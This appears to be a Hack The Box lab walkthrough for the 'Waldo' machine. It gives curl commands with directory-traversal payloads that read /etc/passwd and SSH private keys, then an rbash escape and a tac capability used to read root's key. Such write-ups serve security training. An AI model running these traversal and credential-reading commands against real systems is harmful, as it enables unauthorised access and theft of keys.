# [Waldo](https://app.hackthebox.com/machines/Waldo)

```bash
nmap -p- --min-rate 10000 10.10.10.87 -Pn
```



After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.10.87 -Pn
```



While open our web application, I see such an web page.




Let's look at backend files for this processing.



Backend files are below.
```bash
dirRead.php
fileRead.php
fileWrite.php
fileDelete.php
```

Let's check `dirRead.php` file by using `curl` command.
```bash
curl -X POST -d "path=/" http://10.10.10.87/dirRead.php
```




Let's read files via `fileRead.php` file by using `curl` command.
```bash
curl -s -X POST -d "file=dirRead.php" http://10.10.10.87/fileRead.php | jq -r .file
```




For file bypass filters, I already know them.



For example, we can bypass `dirRead.php` file Directory Filter via below `Directory Traversal` payloads.
```bash
curl -s -X POST -d "path=....//....//....//" http://10.10.10.87/dirRead.php | jq -rc .
```




Let's read `/etc/passwd` file via `Directory Traversal` payload.
```bash
curl -s -X POST -d "file=....//....//....//etc/passwd" http://10.10.10.87/fileRead.php | jq -r .file
```



From this result, I see that `nobody` user is local user as because grep via `home`.

Let's check private key (id_rsa) file of `nobody` user to read.
```bash
curl -s -X POST -d "file=....//....//....//home/nobody/.ssh/.monitor" http://10.10.10.87/fileRead.php | jq -r .file
```




**Note:** As you see file `id_rsa` name changed into `.monitor`

I copied this private key file and change permission with  `600` and login via `ssh` command.



user.txt




While I run `netstat -ntpl` command, I see ports `22` and `8888`.

Let's use our private key file `.monitor` which we used before to authenticate into `localhost` via `monitor` user.
```bash
ssh -i /home/nobody/.ssh/.monitor monitor@localhost
```



It worked.

From my perspective of view, this user is setup `rbash` as because, commands I tried, don't work.




To escape from `rbash` shell means `restricted shell`,we need to specify shell type via `-t` option while joining into machine as below.
```bash
ssh -i /home/nobody/.ssh/.monitor monitor@localhost -t bash
```

Then, we need to specify `environmental` variabled called `$PATH` which locates executive directories.
```bash
export PATH=/root/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```




For `Privilege Escalation` vector, I looked at privileges of this user via `getcap` command.
```bash
getcap -r / 2>/dev/null
```




From here, I see `tac` privilege that, I can read all information, data and sensitive files.

That's why, we can read private key `id_rsa` file of `root` user.
```bash
tac /root/.ssh/id_rsa
```



Let's copy this and change privilege to `600` and then connect into machine via `ssh`.


**But this way doesn't work.**

root.txt

